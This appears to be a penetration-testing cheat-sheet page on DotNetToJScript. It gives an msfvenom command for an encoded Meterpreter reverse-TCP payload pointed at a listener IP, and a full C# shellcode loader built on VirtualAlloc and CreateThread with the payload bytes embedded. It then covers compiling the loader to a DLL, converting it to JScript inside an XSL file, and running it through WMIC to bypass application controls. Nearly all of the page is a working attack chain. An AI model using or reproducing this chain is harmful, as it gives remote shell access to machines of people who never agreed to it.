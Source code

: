 # DotNetToJScript

## DotNetToJScript

DotNetToJScript can be used to serialize C\# assembly into a different language \(JScript, VBA, VBscript\)

* **Require a TestClass class name and a TestClass method**

```text
public class TestClass
{

    public TestClass()
    {
        /* start whatever you want */
        Process.Start("notepad.exe");
    }
}
```

#### Usage 

Compile a malicious dll file using the following .cs file \(keep the namespace name\)

### Create a obfuscated shellcode 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.0.61 LPORT=9001 --encoder x86/xor_dynamic -f csharp`

```text
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;


namespace PoloTest
{
    public class Program
    {
        public Program()
        {
            Main();
        }

        static void Main()
        {

           byte[] buf = new byte[387] {0xeb,0x23,0x5b,0x89,0xdf,0xb0,0xd2,0xfc,0xae,0x75,0xfd,0x89,0xf9,0x89,0xde,0x8a,0x06,0x30,0x07,0x47,0x66,0x81,0x3f,0xf4,0xa8,0x74,0x08,0x46,0x80,0x3e,0xd2,0x75,0xee,0xeb,0xea,0xff,0xe1,0xe8,0xd8,0xff,0xff,0xff,0x13,0xd2,0xef,0xfb,0x91,0x13,0x13,0x13,0x73,0x9a,0xf6,0x22,0xd3,0x77,0x98,0x43,0x23,0x98,0x41,0x1f,0x98,0x41,0x07,0x98,0x61,0x3b,0x1c,0xa4,0x59,0x35,0x22,0xec,0xbf,0x2f,0x72,0x6f,0x11,0x3f,0x33,0xd2,0xdc,0x1e,0x12,0xd4,0xf1,0xe1,0x41,0x44,0x98,0x41,0x03,0x98,0x59,0x2f,0x98,0x5f,0x02,0x6b,0xf0,0x5b,0x12,0xc2,0x42,0x98,0x4a,0x33,0x12,0xc0,0x98,0x5a,0x0b,0xf0,0x29,0x5a,0x98,0x27,0x98,0x12,0xc5,0x22,0xec,0xbf,0xd2,0xdc,0x1e,0x12,0xd4,0x2b,0xf3,0x66,0xe5,0x10,0x6e,0xeb,0x28,0x6e,0x37,0x66,0xf7,0x4b,0x98,0x4b,0x37,0x12,0xc0,0x75,0x98,0x1f,0x58,0x98,0x4b,0x0f,0x12,0xc0,0x98,0x17,0x98,0x12,0xc3,0x9a,0x57,0x37,0x37,0x48,0x48,0x72,0x4a,0x49,0x42,0xec,0xf3,0x4c,0x4c,0x49,0x98,0x01,0xf8,0x9e,0x4e,0x7b,0x20,0x21,0x13,0x13,0x7b,0x64,0x60,0x21,0x4c,0x47,0x7b,0x5f,0x64,0x35,0x14,0x9a,0xfb,0xec,0xc3,0xab,0x83,0x12,0x13,0x13,0x3a,0xd7,0x47,0x43,0x7b,0x3a,0x93,0x78,0x13,0xec,0xc6,0x79,0x19,0x7b,0x19,0x7d,0x13,0x2e,0x7b,0x11,0x13,0x30,0x3a,0x9a,0xf5,0x43,0x43,0x43,0x43,0x53,0x43,0x53,0x43,0x7b,0xf9,0x1c,0xcc,0xf3,0xec,0xc6,0x84,0x79,0x03,0x45,0x44,0x7b,0x8a,0xb6,0x67,0x72,0xec,0xc6,0x96,0xd3,0x67,0x19,0xec,0x5d,0x1b,0x66,0xff,0xfb,0x74,0x13,0x13,0x13,0x79,0x13,0x79,0x17,0x45,0x44,0x7b,0x11,0xca,0xdb,0x4c,0xec,0xc6,0x90,0xeb,0x13,0x6d,0x25,0x98,0x25,0x79,0x53,0x7b,0x13,0x03,0x13,0x13,0x45,0x79,0x13,0x7b,0x4b,0xb7,0x40,0xf6,0xec,0xc6,0x80,0x40,0x79,0x13,0x45,0x40,0x44,0x7b,0x11,0xca,0xdb,0x4c,0xec,0xc6,0x90,0xeb,0x13,0x6e,0x3b,0x4b,0x7b,0x13,0x53,0x13,0x13,0x79,0x13,0x43,0x7b,0x18,0x3c,0x1c,0x23,0xec,0xc6,0x44,0x7b,0x66,0x7d,0x5e,0x72,0xec,0xc6,0x4d,0x4d,0xec,0x1f,0x37,0x1c,0x96,0x63,0xec,0xec,0xec,0xfa,0x88,0xec,0xec,0xec,0x12,0xd0,0x3a,0xd5,0x66,0xd2,0xd0,0xa8,0xe3,0xa6,0xb1,0x45,0x79,0x13,0x40,0xec,0xc6,0xf4,0xa8 };



            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length,
                                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            // prepare data

            IntPtr pinfo = IntPtr.Zero;

            // execute native code

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;

        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
             UInt32 size, UInt32 flAllocationType, UInt32 flProtect);


        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(

          UInt32 lpThreadAttributes,
          UInt32 dwStackSize,
          UInt32 lpStartAddress,
          IntPtr param,
          UInt32 dwCreationFlags,
          ref UInt32 lpThreadId

          );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(

          IntPtr hHandle,
          UInt32 dwMilliseconds
          );
    }
}
```

### Create a malicious DLL using our csharp shellcode

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /target:library /platform:x64 .\shell.cs`

### **Use DotNetToJscript to convert  the cs file to jscript**

`.\DotNetToJScript.exe -l JScript -ver auto -c PoloTest.Program -o shell.txt ..\shell.dll`

### Copy the shell.txt file content into the xsl template file

`DotNetToJScript.exe -l JScript -ver auto -c PoloTest.Program -o csharshell.txt Csharpshell.dll`

### Copy the content into a xsl file

![](../../../.gitbook/assets/9acfce09a7abdbe12d1cb3344f98380c.png)

### Execute the payload using wmic 32bit version 

`C:\Windows\SysWOW64\wbem\WMIC.exe process get /format:2.xsl`

## Resources

{% embed url="https://github.com/tyranid/DotNetToJScript" %}



